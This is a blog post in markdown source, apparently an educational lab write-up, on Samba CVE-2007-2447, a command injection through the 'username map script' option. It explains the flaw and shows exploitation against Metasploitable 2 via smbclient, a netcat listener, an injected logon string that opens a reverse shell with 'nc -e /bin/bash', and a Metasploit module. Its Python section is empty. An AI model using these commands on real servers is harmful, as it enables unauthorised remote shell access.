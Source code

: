 ```yaml
---
layout: post
title:  "Samba CVE2007-2447"
categories: [Technical]
tags: [command execution, exploit, python]
draft: false
---
```


### Introduction

On May 7th 2007, a vulnerability found within Samba was reported via email to their security@samba.com mail alias. This bug was initially reported against the anonymous calls to the `SamrChangePassword()` [MS-RPC](https://en.wikipedia.org/wiki/Microsoft_RPC) function in combination with the "username map script" `smb.conf` option (which is not enabled by default). The bug was disclosed publicly on May 14th.

However, after investigation from developers at Samba they found the bug to be much broader noting that it also impacted remote printer & file share management. The root cause is due to passing unfiltered user input provided by MS-RPC calls to `/bin/sh` when invoking external scripts defined in `smb.conf`. Interestingly the vulnerability found with the "username map script" can be exploited without authenticatiton unlike the bug found in remote printer & file share management scripts, those require an authenticated session.

### So, how does it work?

In general there isn't much to discuss regarding this bug, it's fairly simple - by sending [shell metacharacters](http://faculty.salina.k-state.edu/tim/unix_sg/shell/metachar.html) as the username we trigger the bug and thus allowing us to send aribitary commands to the device. As we mentioned earlier, no authenication is required to exploit this due to the fact that the option is used to map usernames prior to authentication and thus we can exploit this whilst being unauthenticated.

### Code Review

Sadly I was unable to find the source code that was affected for this CVE thus I cannot do a review on it, I'm not sure if anyone has it but if you do I'd greatly appreciate it! You can contact me on Twitter which is linked at the bottom of the page.

### Exploit

We can exploit this vulnerability using the [Metasploit module](https://www.exploit-db.com/exploits/16320/) however, this is another exploit that is easy to execute manually. As per usual we will exploit the vulnerability with Metasploit, manually and write our own script for the exploit.

It's worth noting in the below examples I am using [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)

#### Manual Exploitation

Exploiting this one manually has a few steps but it's not too tricky, it's not exactly efficient but it does the trick! Firstly we need to setup a listening on netcat, open a termninal and use `netcat -nvlp` the actual listener is defined with `l` so you might be wondering what all of this means? Well, `-n` tells Netcat not to resolve names, `-v` specifies to give us a verbose output when printing, `-l` specifies to create the listener as we mentioned and `-p` will create that listener on *any* local port.

Once we have the listener setup we are now going to open a new terminal and check the victims shares, we can do this with `smbclient -L //192.168.139.133` where `-L` will get a list of shares available on a host. We're using Metasploitable 2 as mentioned.

```
root@LinxzSecKali:~# smbclient -L //192.168.139.133
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            METASPLOITABLE
  
```
We're going to focus on the `tmp` folder & attempt to connect to the victim using `smbclient  //192.168.139.133/tmp` now you should receive the following back from the target.

```
root@LinxzSecKali:~# smbclient  //192.168.139.133/tmp
Enter WORKGROUP\root's password: 
Anonymous login successful
```

Next, we need to setup the reverse shell, you should see a prompt that looks like this after the previous command `smb: \>` this is good news, next we need to send `logon` to the target with logon ```logon/=`nc 192.168.139.135 4444 -e /bin/bash``` this time make sure you use your machines ip & not the targets! If we switch back to our terminal we created the netcat listener in you should see this.

```
root@LinxzSecKali:~# netcat -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.139.135] from (UNKNOWN) [192.168.139.133] 36513
```
Now you can execute commands and see that we've owned the machine! As I mentioned, there's a few steps for us to carry out but it's all relatively simple stuff. If in doubt just use `--help` :p


#### Metasploit Exploitation

Load Metasploit using `msfconsole` then run `use exploit/multi/samba/usermap_script` this will tell Metasploit to use that module, next you will need to set the `rhost` with the IP address of your target, you don't need to specify another payload for the bind shell as the Metasploit module will do this for you on your machines IP & port 4444. That's it! You now have a shell with whatever privliges the account Samba is running on has.

![Metasploit Example](/assets/images/cve2007-2447/username%20map%20script%20msf.png)


### Python Exploitation



### References

[Samba Security CVE2007-2447](https://www.samba.org/samba/security/CVE-2007-2447.html)

[Rapid 7 Metasploit Module](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

[CVE Details 2007-2447](https://www.cvedetails.com/cve/cve-2007-2447)

